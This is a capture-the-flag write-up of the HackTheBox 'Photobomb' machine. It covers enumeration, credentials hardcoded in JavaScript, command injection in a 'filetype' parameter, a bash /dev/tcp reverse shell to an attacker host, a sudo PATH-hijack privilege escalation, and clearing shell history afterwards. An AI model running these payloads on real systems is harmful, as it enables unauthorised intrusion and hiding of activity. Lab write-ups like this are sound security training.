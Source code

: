 # HTB – Photobomb (Linux, Easy)

## Table of Contents
- General Info
- Objectives
- Enumeration
- Exploitation
- Initial Shell
- Privilege Escalation
- Post-Exploitation Proof
- Cleanup
- Key Takeaways
- Conclusion

---

## General Info
- **Machine name:** Photobomb  
- **Platform:** HackTheBox  
- **OS:** Linux (Ubuntu)  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: user + root)

---

## Objectives
- Identify entry points through enumeration  
- Exploit vulnerable web functionality to gain a foothold  
- Escalate privileges to root via misconfigured sudo script  

---

## Enumeration

### Nmap Scan
Command: nmap -sC -sV -oA nmap/photobomb <target_IP>  
Result:  
- 22/tcp – OpenSSH 8.9p1 (Ubuntu 3ubuntu0.1)  
- 80/tcp – nginx 1.18.0 (Ubuntu)  

### Virtual Host
The web server expects hostname photobomb.htb.  
Added entry in /etc/hosts:  
<target_IP>    photobomb.htb  

*Figure 1 – Nmap scan results*  
![Nmap scan](01_nmap.png)

*Figure 2 – /etc/hosts modification*
![Hosts file](02_hosts.png)

---

## Exploitation

### Discovered Credentials
Viewing page source (view-source:http://photobomb.htb) revealed photobomb.js.  
Inside the code, static credentials were present:  
- Username: pH0t0  
- Password: b0Mb!  
Login URL: http://photobomb.htb/printer  

*Figure 3 – Credentials exposed in photobomb.js*
![JS credentials](04_js_creds.png)

### Command Injection
POST request to /printer is vulnerable to command injection in parameter `filetype`.

Example payload: `filetype=png;sleep 5;`  
Response time increased by ~5 seconds, confirming execution of system command. 

*Figure 4 – Burp Suite request showing command injection*
![Command injection in Burp](05_command_injection.png)

### Reverse Shell
Payload: filetype=jpg;bash -i >& /dev/tcp/<attacker_IP>/<attacker_port> 0>&1  
Listener: nc -lvnp 4444  
Result: reverse shell as user wizard.  

*Figure 5 – Reverse shell established as wizard*
![Reverse shell](05b_reverse_shell.png)

---

## Initial Shell
Stabilized with:  
python3 -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  

*Figure 6 – Stabilized wizard shell*
![Stabilized shell](06_stabilized_shell.png)

---

## Privilege Escalation

### Sudo Permissions
Checked with: sudo -l  
Output: (root) SETENV: NOPASSWD: /opt/cleanup.sh  

*Figure 7 – Sudo permissions for cleanup.sh*
![Sudo permissions](07_sudo_permissions.png)

### Script Analysis
Content of /opt/cleanup.sh:  
#!/bin/bash  
. /opt/.bashrc  
cd /home/wizard/photobomb  
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]; then  
  /bin/cat log/photobomb.log > log/photobomb.log.old  
  /usr/bin/truncate -s0 log/photobomb.log  
fi  
find source_images -type f -name '*.jpg' -exec chown root:root {} \;  

Observation: find is called without absolute path → vulnerable to $PATH hijack.  

### Exploiting PATH Hijack
Steps:  
cd /dev/shm  
echo -e '#!/bin/bash\nbash' > find  
chmod +x find  
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh  
Result: root shell obtained.  

*Figure 8 – Root shell obtained via PATH hijack*
![Root shell via PATH hijack](08_root_shell.png)

---

## Post-Exploitation Proof
User flag: cat /home/wizard/user.txt  
Root flag: cat /root/root.txt  

*Figure 9 – User flag*  
![User flag](09_user_flag.png)  
Output: `HTB{redacted}`  

*Figure 10 – Root flag*  
![Root flag](10_root_flag.png)  
Output: `HTB{redacted}`

---

## Cleanup
rm -f /dev/shm/find  
history -c  
exit  

---

## Key Takeaways
- Hidden credentials in JS can expose login details.  
- Command injection in poorly validated parameters leads directly to RCE.  
- Always enumerate sudo -l for privilege escalation opportunities.  
- $PATH hijacking is a common and dangerous misconfiguration.  

---

## Conclusion
The Photobomb machine demonstrated a straightforward attack chain:  
- Enumeration revealed a vhost and JS credentials.  
- Exploitation via command injection granted shell access as wizard.  
- Privilege escalation through sudo misconfiguration led to root.  
- Both user and root flags were successfully retrieved.  

This lab emphasizes the importance of code review, secure credential handling, and proper path usage in privileged scripts.
